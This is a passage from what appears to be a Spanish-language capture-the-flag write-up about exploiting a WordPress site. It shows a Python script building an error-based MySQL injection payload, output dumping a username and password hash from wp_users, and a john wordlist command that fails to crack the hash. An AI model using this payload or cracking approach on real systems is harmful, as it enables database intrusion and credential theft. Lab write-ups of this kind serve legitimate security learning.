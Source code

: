 #### SQL injection - Info columnas

Perfecto, veamos la data que hay en la columna `user_login` y `user_pass`:

```py
...
db_name = sys.argv[1]
table_name = sys.argv[2]
column_name = sys.argv[3]
...
    # Debemos agrandar el substring, ya que pueda que nos encontremos unos hashes y pueden ser largos, ahora la extraccion es: Edata_de_la_tablaT
    payload = "(SELECT 8350 FROM(SELECT COUNT(*),CONCAT(0x45,(SELECT MID((IFNULL(CAST(%s AS NCHAR),0x20)),1,80) FROM %s.%s " % (column_name, db_name, table_name)
    payload += "LIMIT %d,1),0x54,FLOOR(RAND(0)*2))x " % (table_position)
    payload += "FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)nada)"
...
```

```bash
❭ python3 ex_information.py wp_users user_login
[+] Info columna user_login - tabla wp_users: d0Ne
[+] Payload: d0Ne
------------------------------------------·
[+] [0]: william.riker

k3Ep br3ak1n6 4anYyyu...

```

```bash
❭ python3 ex_information.py wp_users user_pass
[+] Info columna user_pass - tabla wp_users: d0Ne
[+] Payload: d0Ne
------------------------------------------·
[+] [0]: $P$BFf47EOgXrJB3ozBRZkjYcleng2Q.2.

k3Ep br3ak1n6 4anYyyu...

```

Solo hay un registro, el usuario `william.riker` (que habíamos descubierto antes) y la contraseña encriptada `$P$BFf47EOgXrJB3ozBRZkjYcleng2Q.2.`...

Perfecto, pues antes de seguir con las demás bases de datos, intentemos crackear ese hash, lo guardamos en un archivo y ejecutamos **john** o **hashcat**:

* [Example hashes - Wiki Hashcat](https://hashcat.net/wiki/doku.php?id=example_hashes).

```bash
❭ john --wordlist=/usr/share/wordlists/rockyou.txt william_hash 
```

Pero se queda un bueeeeeen rato intentando crackear el hash, hasta llegar al final del archivo e indicarnos que no ha sido crackeado :( Entonces sigamos profundizando entre las otras bases de datos.

...
